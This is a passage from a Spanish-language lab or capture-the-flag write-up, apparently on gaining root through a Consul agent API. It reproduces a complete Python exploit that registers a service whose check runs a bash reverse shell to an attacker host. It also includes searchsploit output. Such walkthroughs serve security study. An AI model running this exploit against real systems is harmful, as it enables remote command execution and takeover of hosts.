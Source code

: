 ```console
Hassan Consulting Shopping Cart 1.23 - Arbitrary Command Execution                                                                                                                                      | cgi/remote/21104.pl
PHPLeague 0.81 - '/consult/miniseul.php?cheminmini' Remote File Inclusion                                                                                                                               | php/webapps/28864.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Analizando uno de las vulnerabilidades, vemos que hay un endpoint de la API que sirve para registrar un servicio nuevo y realizar una comprobación de este servicio, donde podemos insertar un comando a nivel de sistema y conseguir ejecución remota de comandos.
```console
searchsploit multiple/remote/51117.txt -x
```

Podemos ver que `consul` debe estar siendo ejecutado por `root` ya que el binario pertenece a `root` y en principio no hay permisos especiales para ejecutarlo como otro usuario.
```console
ls -la /usr/local/bin/consul
-rwxr-xr-x 1 root root 183211529 Aug 27 16:06 /usr/local/bin/consul
```

Tampoco estoy seguro del todo de que el servicio web sea gestionado por este binario, pero vamos a probar a crear el servicio malicioso y ver como quien ganamos acceso.

Primero, vamos a ver que hace el script que se nos adjunta.
```python
import requests, sys

if len(sys.argv) < 6:
    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport> <acl_token>\n")
    exit(1)

target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
headers = {"X-Consul-Token": f"{sys.argv[5]}"}
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}

try:
    requests.put(target, headers=headers, json=json)
    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
    print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
```

En resumen, el script intenta explotar la API de Consul para registrar un servicio que, al ejecutarse, abre una **reverse shell** desde el host remoto (`rhost`) al local (`lhost`). Esto permite al atacante controlar remotamente el sistema donde Consul está corriendo.
